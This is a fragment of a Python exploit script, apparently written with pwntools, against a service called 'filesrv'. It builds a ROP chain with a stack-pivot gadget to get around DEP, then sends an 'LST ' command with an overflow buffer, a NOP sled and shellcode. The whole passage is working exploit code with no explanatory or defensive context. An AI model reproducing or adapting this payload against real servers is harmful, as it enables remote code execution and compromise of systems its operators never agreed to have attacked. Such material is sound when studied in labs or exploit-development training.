 ```python
rop += p32(filesrv+0x0003697f) # add eax, edx; ret;
rop += p32(filesrv+0x00066ab3) # xchg esp, eax; ret;


#bp filesrv+0x00011396

buf = b""
buf += b"XXXX"
buf += b"A"*0x68 #offset to pivot landing
buf += rop #from here there's around 350 bytes to ROP


payload  = b""
payload += b"LST "
payload += buf
payload += b"A" * (0x408-len(buf))
payload += b"BBBB" #We have DEP so no nseh
payload += p32(filesrv+0x00011396) # Stack pivot add esp, 0xe10
payload += b"\x90" * 64
payload += shellcode
payload += b"\x90" * (0xfb0-len(payload))
r.sendline(payload)
sleep(2) #if you don't wait the payload is not sent properly
r.close()



```